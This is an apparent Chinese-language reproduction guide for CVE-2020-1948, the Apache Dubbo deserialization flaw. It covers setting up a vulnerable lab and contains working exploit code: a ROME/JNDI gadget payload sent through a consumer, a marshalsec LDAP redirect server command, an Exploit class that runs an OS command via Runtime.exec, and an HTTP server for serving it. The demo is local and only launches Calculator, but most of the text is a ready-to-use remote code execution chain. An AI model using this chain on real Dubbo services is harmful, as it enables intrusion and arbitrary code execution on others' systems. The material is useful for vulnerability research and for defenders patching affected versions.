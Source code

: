 CVE-2020-1948 dubbo反序列化漏洞复现
--

### poc

https://www.mail-archive.com/dev@dubbo.apache.org/msg06544.html

### 影响版本

- Dubbo 2.7.0 to 2.7.6
- Dubbo 2.6.0 to 2.6.7
- Dubbo all 2.5.x versions (not supported by official team any longer)

### 环境搭建

https://github.com/apache/dubbo-spring-boot-project
下载 2.7.6 版本，用 IDEA 打开 dubbo-spring-boot-samples 文件夹，在provider-sample文件夹下的 pom 里添加：

```
        <dependency>
                 <groupId>com.rometools</groupId>
                 <artifactId>rome</artifactId>
                 <version>1.7.0</version>
         </dependency>

```

添加这个是为了手动添加一个漏洞利用gadgets


在`/sample-api/src/main/java/org/apache/dubbo/spring/boot/demo/consumer/DemoService.java`添加一个以Object为参数的远程方法commonTest,如下所示

```java
public interface DemoService {

    String sayHello(String name);
    String commonTest(Object o) throws IOException;
}
```

上面只是一个接口，还需要在服务提供端实现这个接口并重写commonTest方法，在`/auto-configure-samples/provider-sample/src/main/java/org/apache/dubbo/spring/boot/demo/provider/service/DefaultDemoService.java`中：

```java
@Service(version = "1.0.0")
public class DefaultDemoService implements DemoService {

    /**
     * The default value of ${dubbo.application.name} is ${spring.application.name}
     */
    @Value("${dubbo.application.name}")
    private String serviceName;

    @Override
    public String commonTest(Object o) throws IOException {
        return "axin";
    }

    @Override
    public String sayHello(String name) {
        return String.format("[%s] : Hello, %s", serviceName, name);

    }
}
```

接下来就是编写消费端的代码啦，我们直接借用marshalsec.jar生成payload，并利用服务端提供的接口commonTest方法，把payload发送到服务的提供端

```java
@EnableAutoConfiguration
public class DubboAutoConfigurationConsumerBootstrap {

    private final Logger logger = LoggerFactory.getLogger(getClass());

    @Reference(version = "1.0.0", url = "dubbo://127.0.0.1:12345")
    private DemoService demoService;

    private static Object getPayload() throws Exception{
        String jndiUrl = "ldap://127.0.0.1:8087/Exploit";
        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, JDKUtil.makeJNDIRowSet(jndiUrl));
        EqualsBean root = new EqualsBean(ToStringBean.class, item);
        return JDKUtil.makeMap(root, root);
    }
    public static void main(String[] args) {
        SpringApplication.run(DubboAutoConfigurationConsumerBootstrap.class).close();
    }

    @Bean
    public ApplicationRunner runner() throws Exception {
        Object o = getPayload();
        //return args -> logger.info(demoService.sayHello("mercyblitz"));
        return args -> logger.info(demoService.commonTest(o));
    }
}
```

先不要着急运行，由于我们使用的是rome.jar中的jndi攻击链，我们还需要启动一个LDAP服务提供端

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8089/#Exploit 8087`


除此之外，还有恶意代码Exploit.class需要部署到`http://127.0.0.1:8089`,恶意代码如下,请自行编译为class文件

```java

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class Exploit{
    public Exploit() throws IOException,InterruptedException{
        String cmd="/Applications/Calculator.app/Contents/MacOS/Calculator";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException  e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}

```

然后在Exploit.class文件同目录下，执行`python -m SimpleHTTPServer 8089`把恶意代码部署到8089端口上，至此我们的前期工作算是做完了

接着运行provider端，然后运行consumer端，就可以弹出计算器啦

![](assets/calc.png)




